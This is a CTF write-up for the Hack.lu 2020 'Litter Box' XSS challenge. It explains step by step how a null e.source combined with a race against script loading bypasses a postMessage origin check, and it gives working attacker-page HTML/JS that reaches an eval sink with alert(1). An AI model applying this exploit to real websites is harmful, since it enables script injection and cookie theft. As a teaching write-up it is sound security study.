

Hack.lu 2020 CTF - Litter Box - Writeup
linkThe challenge
First of all, I want to give a huge shoutout to @fluxfingers for organizing this years hack.lu CTF. It was amazing: the beautiful theme, creative and no guessing challenges, and no technical problems.
linkSource Code
The challenge was purely a XSS challenge, so no server side trickeries. The source code was also very short:
1link<html>
2link <body>
3link <script>
4link window.onmessage = (e) => {
5link if (e.source == window.frames[0]){
6link eval(e.data) // 😽
7link }
8link }
9link </script>
10link
11link <script src='main.js'></script>
12link <iframe id='litterbox' sandbox></iframe>
13link </body>
14link</html>
The source code of main.js:
1link(async () => {
2link const urlParams = new URLSearchParams(location.search)
3link let src = urlParams.get('src') ? urlParams.get('src') : 'sandbox.html'
4link // make sure its up
5link try{
6link await fetch(src, {mode: 'no-cors', cache: 'no-cache'})
7link }
8link catch(e){
9link console.log('noooo hecking')
10link return
11link }
12link litterbox.src = src
13link})()
The goal was to steal a cookie set by the bot we submit a URL to. It's pretty clear that we need to somehow pass the condition on line 5 in index.html to eval our own javascript to extract the cookie. So let's get started!
linkThe solution
linkBaby steps
To reach the eval call, we first need to execute onmessage. This can be done by calling postMessage on the window. Let's give it a try by embedding the site in an iframe of one of our own controlled websites and execute postMessage on it:
1link <html>
2link<html>
3link <body>
4link <iframe id="litterbox_website"></iframe>
5link
6link <script>
7link litterbox_website.src = "https://litterbox.cf/"
8link litterbox_website.onload = () => {
9link litterbox_website.contentWindow.postMessage("yolo", "*") // --> '*' is used to allow to post messages cross domain
10link }
11link </script>
12link </body>
13link</html>
Setting a breakpoint on onmessage, we can see that the event is triggered:
Ok, now to the intersting part. We need to somehow pass the condition e.source == window.frames[0].
linkBypassing e.source == window.frames[0]
Using the example code before, we can see in the debugger, that e.source is the window containing our (attacker's) website (the one wehre postMessage was executed on).
window.frames[0] is the window of the sandboxed iframe included at the end of the challenge website. At first sight, one might think that there are only 2 possibilities to make e.source == window.frames[0] evaluate to true:
link1. make e.source reference the same object as window.frames[0]
If we want to change e.source to be the same as window.frames[0], we would need to execute the postMessagefunction from inside the sandboxed iframe. However, as the iframe is sandboxed, there is no way to execute javascript inside and therefore there is also no way to execute postMessage inside of it.
link2. make window.frames[0] reference the same object as e.source
For this, we would need the first embedded iframe on the litter box site to be the one that exectues postMessage. As there is no way to change the DOM on the website, it is impossible to add an own controlled iframe that is not sandboxed before the sandboxed iframe. What now?
linkThe third possibility: I thought there were only 2 possibilities
What if we could change both e.source and window.frames[0]??
I knew of a way to make e.source equal to null.
linkMake e.source be null
One can force e.source to be null by destroying the window that executed the postMessage before the onMessageis received by the other window! Let's give it a shot:
1link<html>
2link<html>
3link <body>
4link <iframe id="litterBoxWebsite"></iframe>
5link
6link </div>
7link <script>
8link let postMessageWithNullSource = (message) => {
9link let newWindow = document.createElement("iframe")
10link document.body.appendChild(newWindow)
11link newWindow.contentWindow
12link .eval(`top.litterBoxWebsite.contentWindow.postMessage('${message}', '*')`)
13link document.body.removeChild(newWindow) // --> remove the window that executed postMessage so that e.source will be null
14link }
15link
16link litterBoxWebsite.src = "https://litterbox.cf/"
17link litterBoxWebsite.onload = () => {
18link postMessageWithNullSource("yolo") // --> same as postMessage, but e.source will be null
19link }
20link </script>
21link </body>
22link</html>
Checking e.source on the breakpoint:

Nice! We got the left-hand side of the condition to be null. Let's check the equality table what the right side needs to be to make it pass:
 (
(So the right hand side of the condition (window.frames[0]) needs to be eiter null or undefined.
linkMake window.frames[0] be undefined
The only way I could think of making window.frames[0] be undefined was by removing the sandboxed iframe from the DOM. But there was no way to modify the DOM.
That's when I got the idea that maybe it was possible to trigger the onmessage event before the whole HTML Document was loaded.
If we managed to execute the onmessage event before the document loading reached the sandboxed iframe element, we would have window.frames[0] being undefined.
But is this possible? Is it possible that our postMessage will be handled by the Javscript Scheduler while the HTML Document is being parsed? The answer is no. HOWEVER: if there is a script element that is not async, the HTML Parsing is stopped and the Javascript Scheduler is waiting until the script is finished loading over the network.
 (
(During this time that the script is loading, the Javascript Scheduer is free to do other sutf: including processing received postMessage events that are not handled yet!
So let's try to race condition postMessage/onmessage to execute while the main.js script is loading:
1link<html>
2link<html>
3link <body>
4link <iframe id="litterBoxWebsite"></iframe>
5link
6link </div>
7link <script>
8link
9link let postMessageWithNullSource = (message) => {
10link let newWindow = document.createElement("iframe")
11link document.body.appendChild(newWindow)
12link newWindow.contentWindow.eval(`top.litterBoxWebsite.contentWindow.postMessage("${message}", '*')`)
13link document.body.removeChild(newWindow)
14link }
15link
16link let stopTryRaceConditioning = false
17link let raceCondition = () => {
18link postMessageWithNullSource("alert(1)")
19link if (!stopTryRaceConditioning) { // <-- repeat until iframe is fully loaded
20link setTimeout(raceCondition, 1) // <-- repeat after one ms, let scheduler do other stuff during that time
21link }
22link }
23link
24link litterBoxWebsite.src = "https://litterbox.cf/?src=data:,"
25link litterBoxWebsite.onload = () => {
26link stopTryRaceConditioning = true
27link }
28link raceCondition()
29link </script>
30link </body>
31link</html>
If we are a bit lucky, the scheduler has time to execute our postMessage request during the laoding of the script.js, which is before the sandboxed iframe is in the DOM. As a result e.source == window.frames[0] <==> null == undefined <==> true
Using the chrome profiler, one can see that onmessage is called between the two parseHtml parts:

I guess I was pretty lucky that it worked first try. Sometimes, the Javascript scheduler is just not fast enough to process our postMessage request before the script.js has finished loading. In that case, one can simply repeat the whole process until successful.